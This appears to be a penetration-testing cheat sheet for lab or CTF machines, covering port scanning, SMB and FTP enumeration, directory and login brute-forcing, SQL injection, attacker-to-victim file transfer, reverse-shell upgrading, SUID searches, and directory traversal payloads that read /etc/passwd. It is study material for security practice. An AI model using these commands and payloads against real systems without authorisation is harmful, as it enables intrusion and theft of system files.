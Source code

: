 
- [Port Scanning](#psc)
- [21 - FTP Port](#ftp)
- [139/445 - Samba/SMB](#smb)
- [Directory Enumeration](#dir)
- [Login BruteForce](#log)
- [Sql Injection](#si)
- [File Transfer](#ft)
- [Upgrade Shell](#us)
- [File searching](#fts)
- [Directory Traversal](#dt)

## Port Scanning <a name='psc'></a>

### Nmap
- `-sV` shows the version of the service running on each port.
- `-sC` uses additional scripts to gather more information.
- `-sS` stealth scan.
- `-p-` scans all ports. 
-  `-Pn-` Skip recognition phase.
- `-p <port>` scans only the specified port number. 
-  `--open` only displays open ports.
- `--min-rate` Specifies the minimum number of packets Nmap should send per second; increasing this number speeds up the scan. 
```bash
nmap  -sS -sC -sV -p 21 10.129.42.253
```


## FTP Port <a name='ftp'></a>

### FTP

```bash
# anonymous login
ftp <machine-ip>
# username anonymous
# password anonymous
```

## Samba/SMB Port <a name='smb'></a>

### SmbClient 
It is a network protocol that allows users to communicate with remote computers and servers to use their resources or share, open, and edit files.

- `-U` access as user.
- `-N` No password.
- `-L` This option allows you to look at what services are available on a server.
```bash
smbclient -U bob \\\\10.129.42.253\\users
    
smbclient -N -L \\\\10.129.117.14\\
```

## Directory Enumeration <a name='dir'></a>

### Gobuster
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website.
- To find subdirectories:
````bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#wordlist example: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
#machine example: 10.10.192.23 or http://10.10.192.23:80
#-q to don't print the errors
gobuster dir -u <machine-ip> -w <wordlist> -o gobuster.out -t 200
````

- To find subdomains:
```bash
#wordlist example: /usr/share/dnsrecon/subdomains-top1mil-20000.txt
#machine ip example: 10.10.192.25
gobuster vhost -w <wordlist> -u <machine-ip> -o gobuster.out
````

### wfuzz
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website. Also, it can be useful for enumerate files with an specific extension.
- To find subdirectories:
```bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#machine example: 10.10.192.23
#-c print with colours
#--hc 404 don't print errors
wfuzz -c --hc 404 -w <wordlist> http://<machine-ip>/FUZZ
```

- To find common files:
```bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#machine example: 10.10.192.23
#-c print with colours
#--hc 404 don't print errors
wfuzz -c --hc 404 -w <wordlist> http://<machine-ip>/FUZZ.php
```
## Login Bruteforce <a name="log"></a>

##### ffuf

```bash
# wordlist = rockyou.txt
ffuf -u http://<machine-ip>/login-page.php -X POST -d '{"user":"FUZZ", "pass":"FUZZ"}' -w wordlist
```

## SQLInjection <a name="si"></a>
For more information consult [[SQL]].

- [SqlMap](https://sqlmap.org/)

```bash
# capture the login request with burp and save it as login.req
sqlmap -r login.req --level=5 --risk=3 --batch

# manual expoitation
> Capture the request with burp
> The entered paramaters will be url encoded, decode it with <ctrl>+<shift>+<u>
> Enter the payload " ' or 1 = 1 -- - " (simple sql injection payload)
> After changing the payload, url encode it with <ctrl>+<u>
```

## File Transfer <a name="ft"></a>

```bash 
# on the attacker machine
python3 -m http.server 8081

# on the victim machine
wget http://<attacker-ip>:<port>/<file>
curl http://<attacker-ip>:<port>/<file> -o <output-file>
```


## Upgrade Shell <a name='us'></a>

When we do a reverse shell, sometimes, we will need to upgrade our shell.

- Specifically, what it does is establish a new interactive terminal with advanced features, such as full control of function keys, command history, and the ability to use commands like Ctrl+C and Ctrl+Z. This can be useful in situations where greater interactivity is needed in a limited shell session.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# we need to *restart* to apply the changes, so we do:  
CTRL+Z  
stty raw -echo  
fg  
export TERM=xterm
```

## File searching <a name='fs'></a>

### find

Parameters:
- `-name <pattern>`: Matches files or directories with a specific name pattern.
- `-type <type>`: Matches files or directories of a specific type (e.g., `f` for regular files, `d` for directories, `l` for symbolic links).
- `-size <size>`: Matches files based on their size. For example, `+10M` matches files larger than 10 megabytes.
- `-mtime <time>`: Matches files based on their modification time. For example, `-mtime -7` matches files modified within the last 7 days.
```bash
# Use 2>/dev/null if you don't want to see errors output
find [path] [expression] 2>/dev/null
```

Also,  *find* can be useful to find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.
```bash
# Use 2>/dev/null if you don't want to see errors output
find / -perm -u=s -type f 2>/dev/null
```

## Directory Traversal <a name='dt'></a>

The attack typically takes advantage of insufficient input validation or sanitization mechanisms. By manipulating the input, an attacker can traverse directories and access sensitive files that should not be directly accessible. This could include system files, configuration files, or even user data.

For example, if a web application allows users to download files by specifying a file name in the URL, an attacker could provide a malicious input such as "../../../etc/passwd" to traverse up the directory tree and access the password file.

That can be useful if, for example, the web has a php file with a variable called `filename`.
In this case, we could make a request attempting to access other files, such as /etc/passwd.

```bash
http://example.com/?filename=../../../../../../etc/passwd
```
In some cases the php code can be blocking this attack switching "../" with "". In this case we could try to do:
```bash
http://example.com/?....//....//....//....//....//etc/passwd
```
Sometimes, if the previous method doesn't work, it can be useful to URL-encode the request or URL-encode it twice.
```bash
..%25df..%25df..%25df..%25df..%25df..%25df..%25df..%25dfetc/passwd
```